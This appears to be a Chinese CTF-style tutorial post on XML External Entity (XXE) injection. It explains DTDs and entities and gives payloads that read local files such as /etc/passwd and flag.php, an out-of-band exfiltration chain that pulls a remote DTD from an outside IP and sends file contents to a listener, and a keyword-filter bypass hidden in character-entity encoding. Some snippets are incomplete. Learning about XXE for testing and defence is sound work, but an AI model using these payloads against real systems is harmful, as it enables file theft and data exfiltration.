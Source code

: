 ```yaml
---
title: XXE
date: 2023-05-20 23:48:39
categories:
- 网络安全
tags:
- web 
description: |
    外部实体注入,xml漏洞
---
```

>XXE(XML External Entity Injection) 全称为 XML 外部实体注入，从名字就能看出来，这是一个注入漏洞，注入的是什么？XML外部实体。(看到这里肯定有人要说：你这不是在废话)，固然，其实我这里废话只是想强调我们的利用点是 外部实体 ，也是提醒读者将注意力集中于外部实体中，而不要被 XML 中其他的一些名字相似的东西扰乱了思维(盯好外部实体就行了)，如果能注入 外部实体并且成功解析的话，这就会大大拓宽我们 XML 注入的攻击面(这可能就是为什么单独说 而没有说 XML 注入的原因吧，或许普通的 XML 注入真的太鸡肋了，现实中几乎用不到)

XML是一种非常流行的标记语言，在1990年代后期首次标准化，并被无数的软件项目所采用。它用于配置文件，文档格式（如OOXML，ODF，PDF，RSS，...），图像格式（SVG，EXIF标题）和网络协议（WebDAV，CalDAV，XMLRPC，SOAP，XMPP，SAML， XACML，...），他应用的如此的普遍以至于他出现的任何问题都会带来灾难性的结果。

在解析外部实体的过程中，XML解析器可以根据URL中指定的方案（协议）来查询各种网络协议和服务（DNS，FTP，HTTP，SMB等）。 外部实体对于在文档中创建动态引用非常有用，这样对引用资源所做的任何更改都会在文档中自动更新。 但是，在处理外部实体时，可以针对应用程序启动许多攻击。 这些攻击包括泄露本地系统文件，这些文件可能包含密码和私人用户数据等敏感数据，或利用各种方案的网络访问功能来操纵内部应用程序。 通过将这些攻击与其他实现缺陷相结合，这些攻击的范围可以扩展到客户端内存损坏，任意代码执行，甚至服务中断，具体取决于这些攻击的上下文。

### 基础

XML 文档有自己的一个格式规范，这个格式规范是由一个叫做 DTD（document type definition） 的东西控制的，他就是长得下面这个样子

```xml
<?xml version="1.0"?>//这一行是 XML 文档定义
<!DOCTYPE message [
<!ELEMENT message (receiver ,sender ,header ,msg)>
<!ELEMENT receiver (#PCDATA)>
<!ELEMENT sender (#PCDATA)>
<!ELEMENT header (#PCDATA)>
<!ELEMENT msg (#PCDATA)>
```

与之对应

```xml
<message>
<receiver>Myself</receiver>
<sender>Someone</sender>
<header>TheReminder</header>
<msg>This is an amazing book</msg>
</message>
```

除了在 DTD 中定义元素（其实就是对应 XML 中的标签）以外，我们还能在 DTD 中定义实体(对应XML 标签中的内容)，毕竟 ML 中除了能标签以外，还需要有些内容是固定的

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe "test" >]>
```

这里 定义元素为 ANY 说明接受任何元素，但是定义了一个 xml 的实体（这是我们在这篇文章中第一次看到实体的真面目，实体其实可以看成一个变量，到时候我们可以在 XML 中通过 & 符号进行引用），那么 XML 就可以写成这样

```xml
<creds>
<user>&xxe;</user>
<pass>mypass</pass>
</creds>
```

我们使用 &xxe 对 上面定义的 xxe 实体进行了引用，到时候输出的时候 &xxe 就会被 "test" 替换

#### 实体

上面我们举的例子就是内部实体，但是实体实际上可以从外部的 dtd 文件中引用，我们看下面的代码：

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///c:/test.dtd" >]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>
```

这样对引用资源所做的任何更改都会在文档中自动更新,非常方便（方便永远是安全的敌人）

当然，还有一种引用方式是使用 引用公用 DTD 的方法，语法如下：

`<!DOCTYPE 根元素名称 PUBLIC “DTD标识名” “公用DTD的URI”>`

- 通用实体
用 &实体名; 引用的实体，他在DTD 中定义，在 XML 文档中引用

```xml
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE updateProfile [<!ENTITY file SYSTEM "file:///c:/windows/win.ini"> ]> 
<updateProfile>  
    <firstname>Joe</firstname>  
    <lastname>&file;</lastname>  
    ... 
</updateProfile>
```

- 参数实体
(1)使用 % 实体名(这里面空格不能少) 在 DTD 中定义，并且只能在 DTD 中使用 %实体名; 引用
(2)只有在 DTD 文件中，参数实体的声明才能引用其他实体
(3)和通用实体一样，参数实体也可以外部引用

```xml
<!ENTITY % an-element "<!ELEMENT mytag (subtag)>"> 
<!ENTITY % remote-dtd SYSTEM "http://somewhere.example.org/remote.dtd"> 
%an-element; %remote-dtd;
```

参数实体在我们 Blind XXE 中起到了至关重要的作用

### 我们能做什么

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///c:/test.dtd" >]>
<creds>
<user>&xxe;</user>
<pass>mypass</pass>
</creds>
```

#### 有回显读本地敏感文件(Normal XXE)

看不懂

`<!DOCTYPE 根标签名 SYSTEM "文件名">`

DTD实体是用于定义引用文本或字符的快捷方式的变量，可内部声明或外部引用。

约束通过类别关键词 ANY 声明的元素，可包含任何可解析数据的组合：
`<!ELEMENT 标签名 ANY>`

php

```xml
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
<!ELEMENT name ANY>
<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=flag.php">]>
<creds>
<user>&xxe;</user>
</creds>
```

file协议

```xml
<?xml version="1.0"?>
<!DOCTYPE GVI [<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<catalog>
     <core id="test101">
       <description>&xxe;</description>
    </core>
</catalog>
```

svg格式

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note [
<!ENTITY file SYSTEM "要读取的文件路径" >
]>
<svg height="100" width="1000">
    <text x="10" y="20">&file;</text>
</svg>
```

数据外带

```xml
<!DOCTYPE root [ 
<!ENTITY % remote SYSTEM "http://174.1.66.167/shell.dtd">
%remote;
]>

shell.dtd
<!ENTITY % file SYSTEM "file:///flag">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://127.0.0.1:5555/?flag=%file;'>">
%int;
%send;
```

xxe绕过

当只过滤了SYSTEM，PUBLIC等关键字时，可用双重实体编码绕过

```xml
<?xml version="1.0"?>

<!DOCTYPE GVI [

    <!ENTITY % xml "&#60;&#33;&#69;&#78;&#84;&#73;&#84;&#89;&#32;&#120;&#120;&#101;&#32;&#83;&#89;&#83;&#84;&#69;&#77;&#32;&#34;&#102;&#105;&#108;&#101;&#58;&#47;&#47;&#47;&#102;&#108;&#97;&#103;&#46;&#116;&#120;&#116;&#34;&#32;&#62;&#93;&#62;&#10;&#60;&#99;&#111;&#114;&#101;&#62;&#10;&#32;&#32;&#32;&#32;&#32;&#32;&#60;&#109;&#101;&#115;&#115;&#97;&#103;&#101;&#62;&#38;&#120;&#120;&#101;&#59;&#60;&#47;&#109;&#101;&#115;&#115;&#97;&#103;&#101;&#62;&#10;&#60;&#47;&#99;&#111;&#114;&#101;&#62;">

    %xml;
```

即为在xml实体中再定义一次xml，可成功被解析，支持dtd数据外带

```xml
<!ENTITY xxe SYSTEM "file:///flag.txt" >]>
<core>
      <message>&xxe;</message>
</core>
```
